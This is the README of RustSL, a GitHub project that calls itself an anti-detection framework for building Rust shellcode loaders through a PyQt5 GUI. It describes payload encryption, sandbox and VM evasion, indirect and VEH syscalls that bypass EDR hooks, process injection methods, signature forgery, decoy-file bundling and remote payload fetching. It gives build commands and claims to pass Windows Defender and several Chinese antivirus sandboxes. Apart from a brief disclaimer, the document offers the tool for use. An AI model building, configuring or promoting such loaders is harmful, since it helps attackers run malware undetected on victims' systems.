

# RustSL

[](https://opensource.org/licenses/MIT)
[](https://www.rust-lang.org/)
[](https://www.riverbankcomputing.com/software/pyqt/)

A modular anti-detection framework developed based on Rust, supporting GUI visualization and flexible secondary development, with built-in multiple Shellcode camouflage and anti-sandbox strategies.



## Project Advantages

### Rust Anti-Detection
- **Static Linking and Zero Dependencies**: Rust programs can statically link all dependency libraries, generating a single independent binary file, reducing external library signatures, and lowering the probability of being detected by antivirus software.
- **Efficient Compilation Optimization**: Through configurations such as LTO (Link-Time Optimization), strip (removing symbol tables), and codegen-units=1, generate more compact and obfuscated binary code, making features harder to reverse engineer.
- **No Runtime Overhead**: Rust compiles to native machine code, without needing a virtual machine or interpreter, avoiding obvious runtime features like those in .NET or Java.
- **Advanced Obfuscation Features**: Utilizing Rust Nightly features such as path trimming (trim-paths), panic immediate-abort, and recompiling the standard library, thoroughly removing debug information, path strings, and panic messages, further enhancing concealment.
- **Conditional Compilation and Modularization**: Using Cargo features for conditional compilation, users can selectively enable specific encryption methods, execution modes, or detection strategies, compiling only necessary code modules, significantly reducing binary file size and signatures.

### GUI
- **User-Friendly**: The PyQt5-based graphical interface allows users to easily configure parameters and generate loaders without mastering command-line knowledge, lowering the usage threshold.
- **Integrated Operations**: Integrates all steps such as Shellcode selection, encryption configuration, icon settings, anti-sandbox detection checks, execution mode selection, signature forgery, and file bundling into one interface, achieving one-click generation, simplifying workflows.
- **Intuitive Visualization**: Provides dropdown menus, checkboxes, and file selectors to intuitively display options, avoiding manual input errors, and improving configuration accuracy.
- **Real-Time Feedback**: The interface displays configuration status and generation progress, allowing users to instantly understand operation results, facilitating debugging and adjustments.
- **Cross-Platform Compatibility**: Supports Windows, Linux, and macOS cross-platform compatibility, ensuring consistent experience across different operating systems.
- **Plugin-Based Extension**: The GUI dynamically loads functional modules based on configuration files, supporting the addition of new encryption methods, execution modes, or detection strategies without modifying code.

### Extensibility
- **Plugin-Based Architecture**: Dynamically loads functional modules based on the `config/plugins.json` configuration file. New plugins only need to implement specific interfaces (such as `name` and `process` functions) to be automatically recognized by the GUI and command-line tools, without modifying core code.
- **Modular Design**: Functional modules such as encryption methods, execution modes, and VM detection are stored independently (e.g., `encrypt_lib/`, `src/decrypt/`, `src/exec_shellcode/`, `src/guard/`), facilitating separate development and maintenance.
- **Flexible Cargo Features**: Control compilation content through Cargo features, allowing users to selectively enable required features, reducing unnecessary code, and optimizing binary size and performance.
- **Easy Secondary Development**: Provides detailed secondary development guides, supporting the addition of new encryption methods, execution modes, or detection strategies, simply by adding code in the corresponding directories and registering in the configuration file.

## ✨ Features

### 🔐 Encryption Methods
- **RC4** - Stream cipher algorithm
- **IPv4** - Convert Shellcode to IPv4 address format
- **IPv6** - Convert Shellcode to IPv6 address format
- **MAC** - Convert Shellcode to MAC address format
- **UUID** - Convert Shellcode to UUID format
- **AES** - Advanced Encryption Standard (AES-256-CBC)
- **XChaCha20** - Extended ChaCha20 encryption
- **ECC** - Elliptic Curve Cryptography
- Extensible...

### 💾 Memory Allocation
- **VirtualAlloc** - Allocate RWX memory using system API
- **GlobalAlloc** - Use global memory allocation function
- **LocalAlloc** - Use local memory allocation function
- **HeapAlloc** - Use heap memory allocation function
- **MemoryMappedFile** - Allocate memory using memory-mapped files
- **Section Allocation** - Allocate memory using NtCreateSection and NtMapViewOfSection APIs
- **Shared Allocation** - Allocate shared memory using SHGetMalloc
- **SNMP Utility Allocation** - Allocate memory using SnmpUtilMemAlloc
- **VA from Application** - Allocate memory using VirtualAllocFromApp
- Extensible...

### 🛡️ VM/Sandbox Detection
- **Tick Detection** - Time difference analysis
- **Peek Message** - Detect sandbox using Windows message queue mechanism
- **Mouse Trajectory Detection** - Determine real mouse activity through multi-point trajectory features
- **Desktop Files Detection** - Check desktop file count to identify virtual environments
- **C Drive Capacity Detection** - Check C drive remaining capacity to identify virtual environments
- **RDTSC Detection** - Use RDTSC instruction to detect time acceleration
- **CPU Info Detection** - Check CPU model and core count
- **USB Device Detection** - Check USB device history
- **Uptime Detection** - Check system uptime
- Extensible...

### � Syscall Technology
- **Indirect Syscalls** - Bypass user-layer hooks by directly calling syscall stubs in ntdll.dll
- **VEH Syscalls** - Use Vectored Exception Handling (VEH) to generate legitimate API call stacks, bypassing EDR hooks
- Supports key syscalls such as NtAllocVirtualMemory, NtMapViewOfSection, NtCreateThreadEx, NtQueueApcThread

### �🚀 Execution Modes
- **CreateThread Direct Execution** - Traditional thread creation method
- **GDI Family Variant Injection** - Use GDI functions for injection
- **EnumUILanguagesW Callback Execution** - Execute Shellcode through callback functions
- **Early Bird APC Injection** - Use APC mechanism for injection
- **CreateRemoteThread Remote Injection** - Execute Shellcode through remote thread creation
- **APC Injection** - Use QueueUserAPC for asynchronous procedure call injection
- **Fiber Injection** - Use Fiber mechanism to execute Shellcode
- **FLS Alloc Injection** - Use FLS allocation for injection
- **LineDDA Injection** - Use LineDDA callback to execute Shellcode
- Extensible...

### 📦 Payload Loading Methods (Updated 2025-12-12)
- **Read File** - Read payload from own binary file
- **Named Pipe** - Load payload via named pipe, can bypass some sandbox detections
- **Mailslot** - Load payload via mailslot, another IPC mechanism
- **Read File V2** - Read own file content and overwrite memory, obfuscating data flow analysis
- **Separated Loading** - Separated loading of payload, supports local files or remote URLs
- Extensible...

### 📎 File Bundling Feature (New in 2025-12-12)
- **Arbitrary File Bundling** - Support embedding arbitrary files into executables
- **Compile-Time Embedding** - Files are embedded directly into the binary at compile time

## 📦 Project Structure

```
RustSL/
├── gui/                     # PyQt5 graphical interface and components
├── src/                     # Rust core code
│   ├── main.rs              # Rust main program entry
│   ├── thunk.rs             # Windows 7 compatibility support module
│   ├── alloc_mem/           # Memory allocation related modules
│   ├── decrypt/             # Shellcode decryption modules
│   ├── exec/                # Shellcode execution modules
│   ├── forgery/             # Resource forgery and obfuscation
│   ├── guard/               # Anti-sandbox/anti-VM detection
│   └── utils/               # Utility functions
├── RustVEHSyscalls/         # VEH Syscall implementation (bypassing EDR hooks)
├── bundle/                  # Default bundled files directory
├── config/                  
│   └── plugins.json         # Plugins and features configuration
├── encrypt_lib/         # Python encryption plugins directory
├── sign/                    # Signature related
├── encrypt.py               # Shellcode encryption script
├── main.py                  # GUI startup entry
├── Cargo.toml               # Rust project configuration file
├── build.rs                 # Rust build script
├── requirements.txt         # Python dependencies list
├── input/                   # Shellcode input directory
├── output/                  # Generated executable output directory
├── static/                  # Static resources (such as images, screenshots)
├── icons/                   # Additional icon resources
└── rust-toolchain.toml      # Rust toolchain configuration
```

## 🚀 Quick Start

### Environment Requirements

- **Python 3.7+**
- **Rust Nightly** (requires rustup)
- **PyQt5**
- **Cargo** (Rust package manager)

### Install Dependencies
#### Python Dependencies
```bash
pip install -r requirements.txt
```

**Dependency Explanation:**
- `PyQt5` - Graphical interface framework
- `pycryptodome` - Encryption library (ChaCha20, AES-GCM, RC4, etc.)

#### Rust Environment Configuration

This project depends on Rust Nightly version and `build-std` feature to optimize size and remove signatures.

##### Windows: 

1. **Install Rustup**
   - Download and run [rustup-init.exe](https://win.rustup.rs/)

2. **Configure Nightly Toolchain**
   The project root already includes `rust-toolchain.toml`, and Rustup will automatically detect it upon entering the directory. You need to manually install the Nightly toolchain and source components:
   ```bash
   # Install nightly toolchain
   rustup install nightly

   # Install rust-src component (for build-std recompiling standard library)
   rustup component add rust-src --toolchain nightly
   
   # Add Windows MSVC target (usually installed by default)
   rustup target add x86_64-pc-windows-msvc --toolchain nightly
   ```

3. **Verify Environment**
   ```bash
   cargo +nightly --version
   ```
4. **MSVC Build Environment**
   - Ensure Visual Studio is installed with the "Desktop development with C++" workload to provide the necessary build toolchain.

##### Linux / macOS:
1. **Install Rustup**
   ```bash
   curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
   source $HOME/.cargo/env
   ```
2. **Configure Nightly Toolchain**
   ```bash
    rustup install nightly
    rustup component add rust-src --toolchain nightly
    rustup target add x86_64-pc-windows-gnu --toolchain nightly
   ```
3. **Install Cross-Compilation Tools**
   - Ubuntu/Debian:
     ```bash
     sudo apt update
     sudo apt install gcc-mingw-w64
     ```
   - Arch Linux:
     ```bash
     sudo pacman -S mingw-w64-gcc
     ```
   - macOS (using Homebrew):
     ```bash
     brew install mingw-w64
     ```

4. **Verify Environment**
   ```bash
    cargo +nightly --version
    ```

### Usage

#### 1. Launch GUI
```bash
python main.py
```

#### 2. Select Configuration

Select the required configuration options in the GUI interface

#### 3. Generate Loader
Click the **"One-Click Generate"** button, the program will automatically complete:
- Shellcode encryption
- Rust compilation (with feature selection)
- File copying to `output/` directory

#### 4. Separated Loading

For builds with separated loading (`load_payload_cmdline`) feature enabled, you can specify the payload address via command line:

```bash
# Default read from compile-time configured address
./rsl.exe

# Specify local file path
./rsl.exe C:\path\to\payload.bin

# Specify remote URL
./rsl.exe http://example.com/payload.bin
```

When selecting "Separated Loading" mode in the GUI, an input box will appear for setting the default payload address.

- The payload binary file is the output/encrypt.bin generated after compilation
- You can also generate it yourself via encrypt.py (note to align encryption and encoding methods with the exe file):
```
python encrypt.py -i input/calc.bin -o output/encrypt.bin -m rc4 -e base64
```

## 🪟 Windows 7 Compatibility Configuration (Optional)

### Environment Requirements

To enable Windows 7 compatibility builds, you need to download and configure the following two compatibility libraries:

### 1. VC-LTL5 (Visual C++ Low Level Thread Library)
VC-LTL5 is a lightweight Windows runtime library that provides downward compatibility support for Windows 7.

**Download Address**: https://github.com/Chuyu-Team/VC-LTL5/releases

**Recommended Version**: VC-LTL-5.2.2-Binary.zip

### 2. YY-Thunks (Windows API Thunk Library)
YY-Thunks provides downward compatible thunk implementations for newer Windows APIs.

**Download Address**: https://github.com/Chuyu-Team/YY-Thunks/releases

**Recommended Version**: YY-Thunks-1.1.7-Binary.zip

### Environment Variable Configuration

After downloading and extracting the above two libraries, you need to set the following environment variables:

#### (Windows)
1. Right-click "This PC" → "Properties" → "Advanced System Settings"
2. Click "Environment Variables"
3. Add in "System Variables":
   - Variable Name: `VC_LTL`, Variable Value: `C:\path\to\VC-LTL5`
   - Variable Name: `YY_THUNKS`, Variable Value: `C:\path\to\YY-Thunks`

Then you can compile the loader in Win7 compatibility mode.

## 🔧 Command Line Encryption

You can also use the encryption script separately:

```bash
python encrypt.py -i input/calc.bin -o output/encrypt.bin -m rc4 -e base64
```

Parameters:
- `-i, --input` - Input binary file
- `-o, --output` - Output encrypted file
- `-m, --method` - Encryption method
- `-e, --encode` - Encoding method

### Plugin Explanation:

- `encrypt.py` has been refactored into a plugin architecture: all encryption/encoding methods are placed in the `encrypt_lib/` directory as plugins.
- Each plugin should export a `name` string and `process(data, args)` function, `encrypt.py` will automatically scan and load them.

To add new plugins:
1. Add a new `.py` file in `encrypt_lib/`.
2. Export `name` and `process(data, args)` in the file, you can also provide `add_arguments(parser)` to extend CLI parameters.
3. Re-run `encrypt.py`, the new plugin will be automatically discovered.

## 📝 Command Line Compilation

Use Cargo features to control compilation features:

```bash
# Example: Enable IPv4 decryption + CreateThread execution + Tick detection + Mouse detection + Desktop files detection
set "RSL_ICON_PATH=icons\avp_0000.ico" && cargo build --release --no-default-features --features=decrypt_ipv4,base64_decode,run_create_thread,alloc_mem_va,vm_check_tick,vm_check_mouse,vm_check_desktop_files

# Example: Enable file bundling feature
set "RSL_BUNDLE_FILE=C:\path\to\your\file.pdf" && set "RSL_BUNDLE_FILENAME=document.pdf" && cargo build --release --no-default-features --features=decrypt_ipv4,base64_decode,run_create_thread,alloc_mem_va,with_forgery

# Example: Enable separated loading (read payload address from command line)
set "RSL_ICON_PATH=icons\avp_0000.ico" && set "RSL_DEFAULT_PAYLOAD_ADDRESS=payload.dat" && cargo build --release --no-default-features --features=decrypt_ipv4,base64_decode,run_create_thread,alloc_mem_va,load_payload_cmdline
```

## 🛠️ Secondary Development

### Adding New Encryption Methods
1. Add encryption plugin script in encrypt_lib/
2. Add corresponding decryption module in src/decrypt/
3. Add feature in Cargo.toml
4. Register in config/plugins.json

### Adding New Execution Modes
1. Implement execution logic in `src/exec/`
2. Add feature in `Cargo.toml`
3. Register in `config/plugins.json`

### Adding New Memory Allocation Methods
1. Implement allocation logic in `src/alloc_mem/`
2. Add feature in `Cargo.toml`
3. Register in `config/plugins.json`

### Adding New VM Detection Strategies
1. Implement execution logic in `src/guard/`
2. Add feature in `Cargo.toml`
3. Register in `config/plugins.json`

## 📸 Anti-Detection Screenshots

### Windows Defender:


### Pass Huorong:


### Pass Microstep:

Online CS:


### Pass Qianxin Sandbox:


### Pass 360 Sandbox:


### Pass 360 Nuclear Crystal:

>360 heuristic detection, if QVM202 reports virus, you can try switching icon and signature

## ⚠️ Disclaimer

This tool is for security research and educational purposes only. Users must comply with local laws and regulations and may not use it for illegal purposes. The author is not responsible for any misuse.

## 📄 Open Source License

This project uses the MIT license - see [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- [JoJoLoader](https://github.com/Pizz33/JoJoLoader) by [@Pizz33](https://github.com/Pizz33)
- [sigthief](https://github.com/secretsquirrel/SigThief) - Signature forgery tool
- [felixmaker/thunk](https://github.com/felixmaker/thunk) - Windows 7 compatibility support
- [VC-LTL5](https://github.com/Chuyu-Team/VC-LTL5) - Windows 7 compatibility support
- [YY-Thunks](https://github.com/Chuyu-Team/YY-Thunks) - Windows 7 compatibility support
- [dinvoke_rs](https://github.com/Kudaes/DInvoke_rs)
- [rust-veh-syscalls](https://github.com/safedv/RustVEHSyscalls)
- Rust Community

## Star History

[](https://www.star-history.com/#echQoQ/RustSL&type=date&legend=top-left)

---

## 📝 Changelog

### 2025-11-22
- **Refactor Encryption Module**: Refactored `encrypt.py` into a plugin architecture, supporting dynamic loading of encryption plugins.
- **Add Plugin Directory**: Added `encrypt_lib/` directory.
- **Refactor Decrypt Module**: Split specific decryption functions into subfiles
- **Refactor and Add Alloc_Mem Module**: Added alloc_mem_global and alloc_mem_local for memory allocation
- **Refactor and Add Exec Module**: Added EnumUILanguagesW callback injection and GDI family variant injection
- **Improve Cross-Platform Compatibility**: Fixed compilation and runtime issues on Linux and macOS

### 2025-11-23
- **Add Compilation Target Selection Feature**: Added compilation target dropdown menu in GUI, supporting multiple Windows target architectures.

### 2025-11-25
Refactor and add remote injection support

- Updated `decrypt` function to return original length and pointer.
- Introduced `create_remote_thread` for remote thread injection.
- Added `early_bird_apc` injection method.
- Modularized mouse movement and tick detection into separate files.
- Updated main execution flow to handle different execution modes.
- Added templates for target program and PID handling.

### 2025-11-26
- **Add Windows 7 Compatibility Support**:
  - Wrote src/thunk.rs for Win7 compatibility support based on [felixmaker/thunk](https://github.com/felixmaker/thunk). To enable, please configure the environment as per the tutorial, see [Windows 7 Compatibility Configuration](#-windows-7-compatibility-configuration-optional)
- **Refactor Build System**:
  - Moved `target.rs` generation logic from GUI to `build.rs`, controlled by feature environment variables
  - Moved `icon.rc` generation logic from GUI to `build.rs`, controlled by environment variables
- **Add MapViewOfFile Memory Allocation Method**:
  - Implemented `MapViewOfFile` memory allocation in `src/alloc_mem/mapview.rs`.
- **Add HeapAlloc Memory Allocation Method**:
  - Implemented `HeapAlloc` memory allocation in `src/alloc_mem/heapalloc.rs`.
- **Add XChaCha20 Encryption Method**:
  - Implemented XChaCha20 encryption plugin in `encrypt_lib/xchacha20.py`.
  - Implemented corresponding decryption module in `src/decrypt/xchacha20.rs`.
- **Decouple Encryption/Decryption and Encoding/Decoding, allowing more combinations**

### 2025-12-01
- **Optimize Encoding Method Extension Method**
  - Changed the logic for reading encoding methods in GUI to read from configuration file, facilitating extension and maintenance
  - Added hex encoding method
  - Added urlsafe_base64 encoding method

### 2025-12-02
- **Add ECC Encryption Method**
  - Implemented ECC encryption plugin in `encrypt_lib/ecc.py`.
  - Implemented corresponding decryption module in `src/decrypt/ecc.rs`.

### 2025-12-04
- **Add VM Detection Strategies**
  - Added RDTSC timing detection module
  - Added CPU info detection module
  - Added USB device detection module
  - Added system uptime detection module
- **Add Memory Allocation Strategies**
  - Added NtMapViewOfSection memory allocation method
  - Added SHGetMalloc memory allocation method
  - Added SnmpUtilMemAlloc memory allocation method
  - Added VirtualAllocFromApp memory allocation method
- **Add Execution Modes**
  - Added APC injection execution method
  - Added Fiber injection execution method
  - Added FLS Alloc injection execution method
  - Added LineDDA injection execution method

### 2025-12-10

Inspired by some ideas from arsenal_kit.

- **Refactor Payload Loading Module**: Refactored payload loading logic into a modular architecture
- **Add Named Pipe Loading Method**: Implemented payload loading based on named pipes
- **Add Mailslot Loading Method**: Implemented payload loading based on mailslots
- **Add Read File V2 Loading Method**: Implemented payload loading from own file reading and memory overwriting
- **Update GUI Support**: Added "Payload Loading Method" option in GUI
- **Add PeekMessage Anti-Sandbox Detection**: Detect sandbox environment through Windows message queue mechanism

### 2025-12-11

- Added Indirect Syscalls:
  - NtAllocVirtualMemory
  - NtMapViewOfSection
  - NtCreateThreadEx
  - NtQueueApcThread
- Added VEH Syscalls based on [safedv/RustVEHSyscalls](https://github.com/safedv/RustVEHSyscalls):
  - NtAllocVirtualMemory
  - NtMapViewOfSection
  - NtCreateThreadEx
  - NtQueueApcThread

### 2025-12-12

- Reorganized GUI function arrangement to make page layout more compact
- Upgraded file bundling feature to support custom arbitrary file bundling
- Added separated payload loading method, see usage in [Separated Loading](#4-separated-loading)